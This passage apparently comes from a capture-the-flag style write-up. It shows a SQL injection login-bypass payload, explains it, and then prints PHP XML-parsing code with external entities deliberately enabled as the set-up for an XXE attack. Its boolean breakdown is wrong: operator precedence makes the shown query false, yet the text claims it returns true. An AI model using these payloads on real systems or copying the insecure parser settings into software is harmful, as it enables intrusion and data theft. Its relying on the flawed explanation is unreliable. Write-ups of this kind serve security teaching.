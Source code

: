 ## Forging the SQL Injection

  

Let's start by crafting the SQL injection payload. Since we know the query structure, we can manipulate it to always return TRUE:

  

```sql

-- Original query:

SELECT * FROM users WHERE username = 'admin' AND password = 'password123'

  

-- With our injection:

SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'anything'

```

  

**How the injection works:**

1. **First `'`** - Closes the opening quote from the template

2. **` OR '1'='1`** - Injects our SQL logic (OR condition that's always TRUE)

3. **Last `'`** - Opens a new quote that gets closed by the template's closing quote

  

**Boolean logic breakdown:**

- `username = ''` → FALSE

- `'1'='1'` → TRUE (always)

- `password = 'anything'` → FALSE

- `FALSE OR TRUE AND FALSE` → TRUE (due to OR condition)

  

This creates a valid SQL query that always returns results, bypassing the authentication check.


  

## The XXE Exploit

  

Now comes the real exploit. After bypassing authentication, I discovered the XML parser functionality. Let me show you the critical vulnerability in the XML processing code:
![image](https://gist.github.com/user-attachments/assets/31427e4d-279e-411b-b28b-aab9d42ce326)


```php

// api.php - Lines 26-30

$dom = new DOMDocument();

$dom->resolveExternals = true; // Allows external entities!

$dom->substituteEntities = true; // Substitutes entities!

$dom->loadXML($xml, LIBXML_DTDLOAD | LIBXML_NOENT);

```

